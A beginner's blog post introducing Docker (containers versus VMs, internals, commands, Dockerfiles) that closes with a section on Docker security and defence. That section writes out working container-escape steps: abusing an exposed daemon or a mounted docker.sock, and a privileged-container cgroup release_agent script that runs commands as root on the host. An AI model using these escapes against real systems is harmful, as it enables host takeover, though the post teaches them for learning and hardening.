 ```yaml
---
authors:
- an00b
date: 2022-08-25 12:00:00
description: '*whale noises*'
image: /static/frontmatter/docker-logo.jpg
tags:
- docker
- info
- programming
- container
- beginner
- linux
title: Docker Basics for Fun and Profit
---
```


## Intro
I love Docker, and it's something I've gotten the chance to play around with for a bit while on a 10 week internship at [ORGANIZATION](https://www.youtube.com/watch?v=cGw-8FrRT1E). From a beginner's perspective, it's something that can appear to be very intimidating, but the ability to spin up quick virtualized environments can be invaluable in the infosec and software engineering space, so I wanted this blog post to serve as a brief introduction to not only what Docker is and how we can use it, but also covering some of the security issues that can arise when used incorrectly.

## I. What's this Whale doing here?
Quote [AWS](https://aws.amazon.com/docker/):

> "Docker is a software platform that allows you to build, test, and deploy applications quickly. Docker packages software into standardized units called containers that have everything the software needs to run including libraries, system tools, code, and runtime. Using Docker, you can quickly deploy and scale applications into any environment and know your code will run."

Docker was introduced in 2013 to solve the age old issue of "It runs on my machine :/". The idea of "containerization" is fairly simple, we want to separate applications and processes into their own little bubble such that they all pull from the same hardware resources, but they do not step on each other's toes.

For a more practical understanding, suppose you write some Flask webapp that can only work in Python 3.8. If I am a developer on your team, and I do not have the same OS or version of Python, or some other dependency, I have a few options.
1. I install all of the necessary dependencies on my host OS and potentially muck up my current developement environment with more things ([relevant xkcd](https://xkcd.com/1987/))
2. I set up an entire virtual machine (VM) to act as a container with all of the dependencies so I can work on it from there.

The first option is definitely not practical as time goes on. I'm sure many of us have experienced that while learning something like Python, where no one tells you that virtual environments exist until much later and now you have Python 3.6, 3.7, 3.8, and 3.9 installed, along with a random 32-bit version, and nothing makes sense anymore. The second option is a little more feasible, but it also does not scale very well. Especially in production, if I have to create a new operating system for every application I want to run, the computing power necessary to have all of those VMs up scales very quickly. This is where Docker comes in.

Docker's architecture functions very similarly to the latter example involving VMs. Suppose I set up some VMs running their own applications on my server.

<img src="https://www.docker.com/wp-content/uploads/2021/11/container-vm-whatcontainer_2.png.webp" style="width:80%;height:80%"></img>
<sup>Source: [Docker](https://www.docker.com/resources/what-container/)</sup>

Here, we have a server running some kind of hypervisor, like VirtualBox or VMware, and it is running three different virtual machines. Each VM is running an entire operating system and virtualizing hardware along with whatever applications it needs. This setup is fine if you're trying to set up some kind of lab or development environment, because you usually want to run each machine like it's its own computer, but if we're only using VMs to containerize our applications, (1) it takes a lot of space and (2) it takes more computational resources.

<img src="https://www.docker.com/wp-content/uploads/2021/11/docker-containerized-appliction-blue-border_2.png.webp" style="width:80%;height:80%"></img>

Above is a diagram of how Docker works, and it looks very similar to the VM setup. However, in lieu of a hypervisor, we're using the Docker engine to communicate with the host operating system, and on top of that, each application is running in its own environment, without an entire operating system behind it. I'll lightly touch on the internals of Docker in the next section, but TL;DR, these containers are running with a shared OS kernel, but as isolated processes in the user space. Since the only dependency for running a Docker container is the Docker engine, all someone has to do to run your application is have the Docker engine installed, and then issue the relevant command to load up the application.

For instance, when I do cryptography challenges for CTFs, one tool that is necessary for some of the harder challenges is [SageMath](https://www.sagemath.org/), which is an open source alternative to Magma, Maple, Matlab, etc. However, it's notoriously tricky to install sometimes, and even when it's easy, it takes a while and almost a gigabyte of space. The people over at [CryptoHack](https://cryptohack.org) decided to put together an official "CryptoHack" Docker image, that comes with everything you'd need for 90% of cryptography challenges. You can find the repo [here](https://github.com/cryptohack/cryptohack-docker), but once you have Docker installed, all it takes is

```shell
$ docker run -p 127.0.0.1:8888:8888 -it hyperreality/cryptohack:latest
```

and now you have a fully operational instance of Jupyter running with SageMath, z3, and Python installed! We'll break this command down soon enough, but hopefully it's enough of a taste of the power of Docker.

## II. Lemme See its Insides...

> WARNING: The following information is way more than you'd need to start using basic Docker functionality. If you're willing to accept the blackbox that is cgroups, skip to section III. 

Explaining everything that goes into a Docker container and how it works could be its own blog post, but there are people who have already done an excellent job of it, which I'll link here. This section will serve as a brief summary of the concepts discussed in these resources.
- [Ivan Velichko](https://iximiuz.com/en/posts/container-learning-path/) - Learning Containers From The Bottom Up
- [Nitin Agarwal](https://medium.com/@BeNitinAgarwal/understanding-the-docker-internals-7ccb052ce9fe) - Understanding the Docker Internals
- [codementor.io](https://www.codementor.io/blog/docker-technology-5x1kilcbow) - Docker: What's Under the Hood?
- [LiveOverflow](https://www.youtube.com/watch?v=-YnMr1lj4Z8) - How Docker Works - Intro to Namespaces

**Docker is not the end all be all of containerization**. As mentioned earlier, a container is just an isolated and restricted process. A process in an operating system is typically started via some kind of `fork` or `exec` system call. You can view a tree of processes on the typical Linux system using my favorite incident response command, `ps -aef --forest`. When a process is forked off of another process, we call the fork a child process of the parent process, the one that was forked.

```shell
nayr@capacitor:~/docker-101$ ps -aef --forest
UID          PID    PPID  C STIME TTY          TIME CMD
root           2       0  0 18:32 ?        00:00:00 [kthreadd]
root           3       2  0 18:32 ?        00:00:00  \_ [rcu_gp]
root           4       2  0 18:32 ?        00:00:00  \_ [rcu_par_gp]
root           5       2  0 18:32 ?        00:00:00  \_ [netns]
[...trim...]
root         733       1  0 18:33 ?        00:00:00 /usr/bin/python3 /usr/share/unattended-upgrades/unattended-upgrade-shutdown --wait-for-signal
root         736       1  0 18:33 ?        00:00:00 /usr/bin/containerd
whoopsie     781       1  0 18:33 ?        00:00:00 /usr/bin/whoopsie -f
kernoops     787       1  0 18:33 ?        00:00:00 /usr/sbin/kerneloops --test
kernoops     789       1  0 18:33 ?        00:00:00 /usr/sbin/kerneloops
root         939       1  0 18:33 ?        00:00:02 /usr/bin/dockerd -H fd:// --containerd=/run/containerd/containerd.sock
root        1244       1  0 18:34 ?        00:00:00 /usr/sbin/lightdm
root        1268    1244  0 18:34 tty7     00:00:01  \_ /usr/lib/xorg/Xorg -core :0 -seat seat0 -auth /var/run/lightdm/root/:0 -nolisten tcp vt7 -novtswitch
root        1455    1244  0 18:35 ?        00:00:00  \_ lightdm --session-child 12 19
nayr        1490    1455  0 18:37 ?        00:00:00      \_ xfce4-session
nayr        1694    1490  0 18:37 ?        00:00:00          \_ /usr/bin/ssh-agent /usr/bin/im-launch startxfce4
nayr        1739    1490  2 18:37 ?        00:00:00          \_ xfwm4 --replace
[...trim...]
```

However, a container must be isolated and restricted, and there are a number of ways to achieve this separation, but in the context of Docker, we're talking about a few things working together, process namespaces, cgroups, union file system, and `runc`.
- **Namespaces**. A namespace is a feature of the Linux kernel that isolates groups of processes from each other. In the context of a container, this makes sure that a process running within the container can't interact with a process running on the host OS. 
- **Cgroups**. A cgroup is another feature of the Linux kernel that constrains what resources a process has access to, specifically stuff like CPU and memory. This allows Docker to prevent the containers running on a machine to consume all of the hardware resources on the host.
- **Union File System**. The Union File System has more to do with constructing images, and without getting into the details of that, it simply handles the changes made to a filesystem when a Docker image is being built to form one coherent filesystem.
- **runc**. runc is a container runtime that ties a lot of this together by doing the low level work of preparing the container and starting the containerized process. Theoretically, you could create containers with runc alone, but it isn't very developer-friendly.

You'll notice that we keep talking about Linux here, and that's because Docker relies on Linux kernel functions to actually do anything that it does. You may have also heard that you can use Docker Desktop on Windows and Mac. This works (from my understanding) by installing a small Linux kernel that is solely dedicated to handling Docker processes.

The article by [Ivan Velichko](https://iximiuz.com) has a really good graphic that ties all of this together. 
![thank you ivan](https://iximiuz.com/container-learning-path/docker-containerd-runc-2000-opt.png)

If you take a step back, Docker is really just abstraction for `containerd`, which is just abstraction for what `runc` does. Although the name "Docker" is almost ubiquitous with the idea of a container, there are plenty of alternatives that are not Docker.
- [podman](https://podman.io/)
- [buildah](https://buildah.io/)
- [skopeo](https://github.com/containers/skopeo)
- [kaniko](https://github.com/GoogleContainerTools/kaniko)
- [lxd](https://linuxcontainers.org/lxd/introduction/)
- And many more.

Again, definitely refer to the articles linked before, you can take a very deep dive into the process of containerization and virtualization which goes well beyond the scope of this blog post. But now, how do we use any of this?

## III. Call Me Ishmael
<sup>I've never actually read Moby Dick but I think this is relevant</sup>

### Using Containers
> Note that I will be working off of my Linux dev machine because that is easiest, instructions might be different if you're on Windows or Mac.

Docker has a number of features, and the best place to read up on all of the things it can do is the documentation found [here](https://docs.docker.com/). I won't cover the installation instructions here because the docs lay it out pretty clearly, but let's talk about actually using the application.

The simplest usage is probably following install instructions on a GitHub application's README page. If you've ever poked around GitHub repos before (you're telling me people don't browse the Explore tab for fun?), you've probably seen "Docker Install" instructions before. Going back to our command before:

```shell
$ docker run -p 127.0.0.1:8888:8888 -it hyperreality/cryptohack:latest
```
What's going on here?
- The `docker run` is a subcommand that "runs a command in a new container", which is usually the command to actually spin up a new container, but you can also just use it to run commands
- The `-p` command tells the docker engine to publish a container's ports to the host. In this case, we're basically port forwarding the container's port 8888 to our own host's port 8888 (127.0.0.1 was specified instead of the default 0.0.0.0 because of some technicalities with Jupyter).
- The `-it` flag is a combination of the `-i` and `-t` flags that makes the container interactive (i.e. keeping STDIN open) and allocates a tty.
- `hyperreality/cryptohack:latest` refers to the image, i.e. the snapshot of the program with its dependencies, that will be run. In this case, we're referring to an image that is located on an official Docker registry (which is like GitHub/GitLab but for Docker images). The `latest` is a tag that we're referring to, that usually indicates version or the type of build.

If I run this command, the first thing I see is Docker noticing that I do not have the specified image downloaded, so it does that for me:
```shell
nayr@capacitor:~/docker-101$ docker run -p 127.0.0.1:8888:8888 -it hyperreality/cryptohack:latest
Unable to find image 'hyperreality/cryptohack:latest' locally
latest: Pulling from hyperreality/cryptohack
3386e6af03b0: Extracting [==================================================>]  44.12MB/44.12MB
49ac0bbe6c8e: Download complete 
d1983a67e104: Download complete 
1a0f3a523f04: Download complete 
bb9c300c9fea: Download complete 
f505d9c0453f: Download complete 
52b0902eb711: Download complete 
5fae596cfdf8: Download complete 
a9871dcf4c86: Downloading [================================>                  ]  416.1MB/630.5MB
5bdd900d09e2: Download complete 
8afac9aafedc: Download complete 
f080b87236dc: Download complete 
e370aae9e312: Download complete 
9a15ea0e5fc0: Download complete 
e8afa58620b5: Download complete 
145250bfb4c1: Download complete
```

Each of those lines represents a **layer** of the image, which is like a building block for the image to be built. Once all of them have been downloaded and extracted, we're greeted with the output of this application, which as mentioned earlier, is a Jupyter notebook server.

```shell
---------------------------------- 
CryptoHack Docker Container 

After Jupyter starts, visit http://127.0.0.1:8888 
---------------------------------- 

┌────────────────────────────────────────────────────────────────────┐
│ SageMath version 9.0, Release Date: 2020-01-01                     │
│ Using Python 3.7.3. Type "help()" for help.                        │
└────────────────────────────────────────────────────────────────────┘
Please wait while the Sage Jupyter Notebook server starts...
[I 00:53:31.511 NotebookApp] Using MathJax: nbextensions/mathjax/MathJax.js
[I 00:53:31.574 NotebookApp] Writing notebook server cookie secret to /home/sage/.local/share/jupyter/runtime/notebook_cookie_secret
[W 00:53:36.985 NotebookApp] All authentication is disabled.  Anyone who can connect to this server will be able to run code.
[I 00:53:37.044 NotebookApp] Serving notebooks from local directory: /home/sage
[I 00:53:37.045 NotebookApp] The Jupyter Notebook is running at:
[I 00:53:37.047 NotebookApp] http://(2c489fb0dd4d or 127.0.0.1):8888/
[I 00:53:37.047 NotebookApp] Use Control-C to stop this server and shut down all kernels (twice to skip confirmation).
```

If we navigate to `localhost[:]8888`, we see the Jupyter notebook interface.

![asdf](https://an00brektn.github.io/img/docker-101/Pasted%20image%2020220825195520.png)

If you hate the GUI or you just need to poke around inside the container, you can get a shell by using the following command.

```shell
$ docker exec -it CONTAINER_ID_OR_NAME /bin/bash
```

You can then navigate around the container as if it were a real Linux machine! You'll notice that most containers have the absolute bare minimum needed to run. For instance, you won't always find `sudo` or `su` installed like you would on a normal Linux machine. This barebones-ness is extremely evident if you list the currently running processes.

```shell
sage@1b75abad9270:~$ ps aux
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
sage           1  0.0  0.0  11324  2640 pts/0    Ss+  01:07   0:00 /bin/bash --norc -c echo -e $BANNER && sage -n jupyter --NotebookApp.token='' --no-browser --ip='0.0.0.0' --port=8888
sage          38  0.0  0.0  11328  2724 pts/0    S+   01:07   0:00 bash /home/sage/sage/src/bin/sage-python /home/sage/sage/src/bin/sage-notebook -n jupyter --NotebookApp.token= --no-browser --ip=0.0.0.0 --port=8888
sage          41  1.0  1.1 192640 44780 pts/0    S+   01:07   0:01 python3 /home/sage/sage/src/bin/sage-notebook -n jupyter --NotebookApp.token= --no-browser --ip=0.0.0.0 --port=8888
sage          47  0.0  0.0  19968  3580 pts/1    Ss   01:08   0:00 /bin/bash
sage          57  0.0  0.0  36132  3108 pts/1    R+   01:10   0:00 ps aux
```
The astute observer will also notice that the process of PID 1 is not the `init` process, but just a bash oneliner that is running the program. This opens up a discussion about internals once again that you can research on your own to get a full, in-depth answer.

Using the Docker documentation and help commands, you should be able to figure out what this [TruffleHog](https://github.com/trufflesecurity/trufflehog) Docker command is doing. There are far too many flags and subcommands in Docker
```shell
$ docker run -it -v "$PWD:/pwd" trufflesecurity/trufflehog:latest github --org=trufflesecurity
```

### Managing Your Images
Once you have a few images, you might want to to actually keep track of what's going on with your containers.

You can view the images you have downloaded and built using `docker image ls`.
```shell
nayr@capacitor:~/docker-101$ docker image ls
REPOSITORY                TAG            IMAGE ID       CREATED         SIZE
python                    latest         d25a66380b10   2 days ago      921MB
node-red-target           latest         ddcb729ca11b   3 weeks ago     604MB
ubuntu                    latest         df5de72bdb3b   3 weeks ago     77.8MB
nodered/node-red          latest         bf4e92b68063   4 weeks ago     474MB
mongo                     4              4efbd72d3ba6   2 months ago    443MB
rabbitmq                  3-management   177cd13b34b5   2 months ago    257MB
alpine                    3              e66264b98777   3 months ago    5.53MB
alpine                    latest         e66264b98777   3 months ago    5.53MB
postgres                  13-buster      346c7820a8fb   11 months ago   315MB
hyperreality/cryptohack   latest         de39b4ffaafd   2 years ago     2.48GB
```

I can delete an image using `docker image rm`.
```shell
nayr@capacitor:~/docker-101$ docker image rm alpine:3
Untagged: alpine:3
nayr@capacitor:~/docker-101$ docker image ls
REPOSITORY                TAG            IMAGE ID       CREATED         SIZE
python                    latest         d25a66380b10   2 days ago      921MB
node-red-target           latest         ddcb729ca11b   3 weeks ago     604MB
ubuntu                    latest         df5de72bdb3b   3 weeks ago     77.8MB
nodered/node-red          latest         bf4e92b68063   4 weeks ago     474MB
mongo                     4              4efbd72d3ba6   2 months ago    443MB
rabbitmq                  3-management   177cd13b34b5   2 months ago    257MB
alpine                    latest         e66264b98777   3 months ago    5.53MB
postgres                  13-buster      346c7820a8fb   11 months ago   315MB
hyperreality/cryptohack   latest         de39b4ffaafd   2 years ago     2.48GB
```

We can see what Docker images are currently running with `docker ps`.
```shell
nayr@capacitor:~/docker-101$ docker ps
CONTAINER ID   IMAGE                            COMMAND                  CREATED         STATUS         PORTS                      NAMES
2c489fb0dd4d   hyperreality/cryptohack:latest   "/usr/local/bin/sage…"   8 minutes ago   Up 7 minutes   127.0.0.1:8888->8888/tcp   interesting_shamir
```

Sometimes, when developing Docker containers, you might have accidentally kill a container forcibly, leaving it in a weird "exited but not gone" state. You can see those ones using `docker ps -a`. If I want to kill the currently running container, I could go into the terminal window and use CTRL+C, but it's best practice to use `docker stop` so it exits safely. You can refer to a container either by its ID or the random name that it gets assigned.

```shell
nayr@capacitor:~/docker-101$ docker stop interesting_shamir 
interesting_shamir
```

If you run `ip a` or `ifconfig`, you'll probably notice a new network adapter on your host. Like how hypervisors have their own network adapters to handle communication between VMs, Docker also has its own internal network, typically some kind of 172.x.x.0/24 network.

Once again, I highly encourage you to play around with some of these commands yourself, because there's a lot you can do here, including setting up networks of containers, which could honestly be its own post if I really wanted. If you do eventually become a Docker aficionado, I do recommend possibly using some of these nifty [aliases](https://gist.github.com/jgrodziski/9ed4a17709baad10dbcd4530b60dfcbb) to speed up your terminal work.

### Write Your Own!
Building Docker containers is not some exclusive activity, and it's super easy to set them up. There are three main components to keep in mind here.
1. **Dockerfile**. This file is where you write the instructions that actually build a given container. Here, you usually give all of the commands that install dependencies, setup users, expose ports, etc.
2. **Image**. This is what a Dockerfile builds, which is essentially a snapshot of the application environment after the Dockerfile runs through all of its commands.
3. **Containers**. As we've seen, containers are what runs the image and what you end up interacting with

We can set up the smallest, simplest, "Hello World!" container in just a few lines of code. In a new directory, create a Dockerfile file, and add the following lines to it.

```dockerfile
FROM alpine:latest

RUN apk update && apk upgrade && \
    apk add vim
RUN adduser -D appuser

USER appuser
CMD ["echo", "I love whales"]
```

So it's not the world's smallest container technically, but I wanted to have more to talk about than an echo command.
- `FROM alpine:latest` tells Docker that we want to base our image off of the existing official Alpine Linux Docker container. This is common, and typically establishes the operating system and/or the code environment that will be set up.
- The two `RUN` commands are executed in separate layers. The first one updates and upgrades the packages (Alpine Linux uses the `apk` package manager). The second adds a user called `appuser`, which leads into the next line.
- `USER appuser` tells the container to run in the context of the `appuser` user. A container runs as the `root` user by default, which isn't *as bad* compared to doing it on a real server, but security considerations come later
- `CMD` is the command that the image runs when called. In place of this, you might also see `ENTRYPOINT`, which is similar in the sense that it runs the main application of the container, but you cannot pass arguments to the entrypoint like you would the cmd. (If that didn't make sense read [this](https://www.bmc.com/blogs/docker-cmd-vs-entrypoint/), it helped clarify things for me a lot)

We can build the container using `docker build -t NAME:TAG DIRECTORY`, and we can see all of the layers, except for our CMD, being executed.
```shell
nayr@capacitor:~/docker-101$ docker build -t hello-world:latest .
Sending build context to Docker daemon   2.56kB
Step 1/5 : FROM alpine:latest
 ---> e66264b98777
Step 2/5 : RUN apk update && apk upgrade &&     apk add vim
 ---> Running in 81275251a333
fetch https://dl-cdn.alpinelinux.org/alpine/v3.16/main/x86_64/APKINDEX.tar.gz
fetch https://dl-cdn.alpinelinux.org/alpine/v3.16/community/x86_64/APKINDEX.tar.gz
v3.16.2-101-g5201df137e [https://dl-cdn.alpinelinux.org/alpine/v3.16/main]
v3.16.2-105-g93db4443dc [https://dl-cdn.alpinelinux.org/alpine/v3.16/community]
OK: 17033 distinct packages available
(1/8) Upgrading alpine-baselayout-data (3.2.0-r20 -> 3.2.0-r22)
(2/8) Upgrading busybox (1.35.0-r13 -> 1.35.0-r17)
Executing busybox-1.35.0-r17.post-upgrade
(3/8) Upgrading alpine-baselayout (3.2.0-r20 -> 3.2.0-r22)
Executing alpine-baselayout-3.2.0-r22.pre-upgrade
Executing alpine-baselayout-3.2.0-r22.post-upgrade
(4/8) Upgrading ca-certificates-bundle (20211220-r0 -> 20220614-r0)
(5/8) Upgrading libcrypto1.1 (1.1.1o-r0 -> 1.1.1q-r0)
(6/8) Upgrading libssl1.1 (1.1.1o-r0 -> 1.1.1q-r0)
(7/8) Upgrading ssl_client (1.35.0-r13 -> 1.35.0-r17)
(8/8) Upgrading zlib (1.2.12-r1 -> 1.2.12-r3)
Executing busybox-1.35.0-r17.trigger
OK: 6 MiB in 14 packages
(1/5) Installing xxd (8.2.5000-r0)
(2/5) Installing lua5.4-libs (5.4.4-r5)
(3/5) Installing ncurses-terminfo-base (6.3_p20220521-r0)
(4/5) Installing ncurses-libs (6.3_p20220521-r0)
(5/5) Installing vim (8.2.5000-r0)
Executing busybox-1.35.0-r17.trigger
OK: 35 MiB in 19 packages
Removing intermediate container 81275251a333
 ---> a953674ed2f9
Step 3/5 : RUN adduser -D appuser
 ---> Running in da275f859726
Removing intermediate container da275f859726
 ---> 75fc5c40040a
Step 4/5 : USER appuser
 ---> Running in 606f5833eece
Removing intermediate container 606f5833eece
 ---> 6079bb7c3e1f
Step 5/5 : CMD ["echo", "I love whales"]
 ---> Running in ffae8e51c700
Removing intermediate container ffae8e51c700
 ---> 155b894bf7b8
Successfully built 155b894bf7b8
Successfully tagged hello-world:latest
```

Once we want to run our container, which should only print "I love whales", we can issue the below command:
```shell
nayr@capacitor:~/docker-101$ docker run hello-world
I love whales
```

And, surprisingly, that's all there really is to making a custom Docker container. The real challenge is when you get to bigger applications with many more dependencies and requirements to set up, and you have to automate all of that. One thing that really helped me get more familiar with Dockerfiles is just looking at how other people did them. If you're a chronic CTF player like I am, you'll notice in many of the whitebox web challenges, where you're given the source code to the application, they don't only give you the code, but they also give you the Dockerfile to be able to run it locally without having to install every single, probably vulnerable, library and file. [HackTheBox](www.hackthebox.com)'s web challenges almost all have downloads like this, many of which set up all of the frontend and backend components at run time. Below is an example I made for a (baby easy) web challenge for a [local event](https://github.com/An00bRektn/flyer-ctf) I ran.

```Dockerfile
FROM alpine:latest

# Setup user
RUN adduser -D -u 1000 -g 1000 -s /bin/sh www

# Install system packages
RUN apk add --no-cache --update php7-fpm supervisor nginx

# Configure php-fpm and nginx
COPY config/fpm.conf /etc/php7/php-fpm.d/www.conf
COPY config/supervisord.conf /etc/supervisord.conf
COPY config/nginx.conf /etc/nginx/nginx.conf

# Copy challenge files
COPY challenge /www

# Setup permissions
RUN chown -R www:www /var/lib/nginx

# Expose the port nginx is listening on
EXPOSE 80

# Copy entrypoint
COPY entrypoint.sh /entrypoint.sh
RUN chmod +x /entrypoint.sh

# Start the php application
ENTRYPOINT [ "/entrypoint.sh" ]

# Populate database and start supervisord
CMD /usr/bin/supervisord -c /etc/supervisord.conf
```

Admittedly, I did copy off of HackTheBox's Dockerfile for Toxic, which was another PHP application, but I did learn from it. Here, we're starting with another Alpine Linux base image, and then setting up the `www` user to run the website. We then move all of the configuration files and challenge files to the relevant locations. After this, we set up the permissions, and use the `EXPOSE` command to open the port for the web service. An `entrypoint.sh` script is used to handle any additional system configuration (normally this would handle database stuff because you wouldn't really want to do that in a layer but I didn't use a database for this challenge), and then we start everything up using `supervisord`.

And those are pretty much the basics to setting up your own Docker image. This is one of those things you learn best by doing. One thing I should probably mention before moving on is that you can also use `docker compose` to spawn and stop multiple containers at the same time, all managed from a single file. This is especially useful when you want to set up a network of Docker containers, or just a distributed application. Like the Dockerfile, this is truly best understood and learned by reading documentation and looking at existing implementations, because it's really not that complicated, you just have to understand what switches you have at your disposal.

Here are some examples of Docker Compose files that you can learn from
- [CTFd/CTFd](https://github.com/CTFd/CTFd/blob/master/docker-compose.yml) - a framework for setting up Capture the Flag events
- [docker/awesome-compose](https://github.com/docker/awesome-compose) - an entire repository dedicated to compose examples, with every single application stack you could imagine
- [sprintcube/docker-compose-lamp](https://github.com/sprintcube/docker-compose-lamp) - LAMP stack application built with Docker and Docker Compose

![hax](https://i.giphy.com/media/KmHueA88mFABT9GkkR/giphy.webp)

## IV. Gib Hax
Alright, alright. Like any application, Docker is not free from its share of misconfigurations and security issues. I am not cracked enough to show you any crazy, novel container escape exploits, but I will say the currently known exploits are pretty well documented online.
- [TryHackMe's The Docker Rodeo](https://tryhackme.com/dockerrodeo) is a subscriber-only room by [CMNatic](https://github.com/CMNatic) and is honestly a really great walkthrough room which discusses some of the security issues that can be present in not only Docker containers but Docker registry configurations.
- [HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation) obviously has an entire entry on this, I don't need to explain any more.
- [OWASP](https://cheatsheetseries.owasp.org/cheatsheets/Docker_Security_Cheat_Sheet.html) and [Docker](https://docs.docker.com/engine/security/) both have pretty well written guides on Docker hardening

There are also plenty of container enumeration tools out there that you can find, but my favorites are [deepce.sh](https://github.com/stealthcopter/deepce) and [CDK](https://github.com/cdk-team/CDK). All of this together, we will only take a surface level look at some of the potential security issues, but enough so that you get an idea of where issues may lie.

### RCE and Escape via Exposed Docker Daemon
Communication with Docker happens over sockets, but not in the conventional network socket you probably learned about in your Intro to Networks class. Functionally, they're similar in the sense that they facilitate the transfer of data over a stream from point A to point B, but Docker uses what's called a UNIX socket,  which is specifically for inter-process communication. All communication happens through the kernel as opposed to the network. This is also the reason you have to be in the `docker` group or have `sudo` permissions to run Docker without getting a socket error.

If someone is communicating with the Docker daemon over the network, there is likely a way for you to abuse it. If it's configured to listen on the network, the default port is 2375, and you can verify whether or not you have command access by doing

```shell
$ curl http://IP_ADDRESS:2375/version
```

From here, you can get access to arbitrary docker commands like so, using any argument you want in place of `ps`.
```shell
$ docker -H IP_ADDRESS:2375 ps
```

You can start executing whatever Docker commands you want, or just escalate privileges in whatever magical way you come up with (there are ways but finding them is easy).

But what if your target isn't completely oblivious to this issue? If you are in a container, and you find that the `docker.sock` file is in the container, you abuse this as well. Assuming you have the privileges to run `docker` from within the container, and an image like `alpine` is already on the box, running the below command is an instant escape. 

```shell
$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

We mount the host's root directory to the `/mnt` directory in a new container and enter that new container with `sh`.

### Privileged Containers
Privileged containers are fundamentally less secure than non-privileged containers. Referring to the diagram from before, Docker containers typically communicate with the Docker Engine, which then talks to the host OS. In the case of a privileged container, however, a container communicates directly with the host OS, which can be abused.

We can create a privileged container on our host like so:
```shell
$ docker run --rm -it --privileged ubuntu bash
```

We can enumerate the capabilities we have using `capsh --print`. The capability we will focus on is `cap_sys_admin`, but some of the other setups are described in Hacktricks. [Felix Wilhelm](twitter.com/@_fel1x) was the one who discovered this specific PoC, but this [TrailOfBits post](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes) explains the details of the exploit in much more depth than will be covered here.

```shell
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/exploit" > /tmp/cgrp/release_agent
echo '#!/bin/sh' > /exploit
echo "COMMAND" >> /exploit
chmod a+x /exploit
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

From a very high level overview, we are abusing the fact that we are in a privileged container, which allows us to manage cgroups as root on the host, meaning we can create our own cgroup. Once we make a new cgroup (the 'x'), we abuse `notify_on_release`, which will execute some arbitrary comand once the cgroup exits, which we can then use to do quite literally anything as root on the host OS.

### runc Exploit (CVE-2019-5736)
In versions of Docker < 18.09.2, a vulnerable version of `runc` is used which can be exploited if you can execute `docker exec` as root. It works by overwriting `/bin/sh` with `#!/proc/self/exe`, a symlink to the binary that started the container, which can be leveraged to write to the `runc` binary itself to escalate privileges. This vulnerability is described in further depth by [Unit 42](https://unit42.paloaltonetworks.com/breaking-docker-via-runc-explaining-cve-2019-5736/), and can be seen in [HackTheBox's TheNotebook](https://youtube.com/watch?v=S4FrlMTY0GY&t=1900) machine. You can find a proof of concept [here](https://github.com/Frichetten/CVE-2019-5736-PoC/blob/master/main.go).

### Additional Exploitation Things
- As mentioned earlier, containers can operate in their own networks, so the same techniques that are used to move laterally on a real network can be applied here to access other containers.
- Volumes can be mounted to containers as shown in my [GoodGames](https://notateamserver.xyz/uni-ctf-goodgames/#shell-as-augustus) writeup, and can be abused in similar ways that you'd abuse any mounted share on a Linux system.
- Environment variables likely contain cleartext passwords or secret keys that may allow you to not even bother with a Docker escape and get right into another component

### Defense
Docker, when implemented in an environment, inherently provides some security via containerization, either intentionally or unintentionally. If you're managing the DMZ for an organization, and somehow an attacker is able to get RCE on a webapp and break in, their code execution is limited to the confines of the container. While there may be ways to leverage what's in the container to pivot somewhere else, it does create nice level of separation between the host and the application. However, when configured incorrectly, Docker can be the way that someone goes from low level access to full domain access.

I think the OWASP and Docker articles posted earlier do a very good job at covering most of the ideas, but I'd like to reiterate a few here
- **Keep your systems updated**. Just because it's in a container doesn't mean its impenetrable, and as we saw with the `runc` exploit, an outdated version of Docker can lead to full compromise. Additionally, the container itself is its own environment that needs to be inventoried and updated. Kernel privilege escalation like [Dirty COW](https://github.com/scumjr/dirtycow-vdso) in a container will lead to root access on the host.
- **Principle of Least Privilege**. Is it not the end of the world to be running a container as the `root` user? Not necessarily. But it does minimize the potential for additional damage down the line. This rule also applies to the container itself. A Docker container can have capabilities, but too many capabilities could lead to escapes.
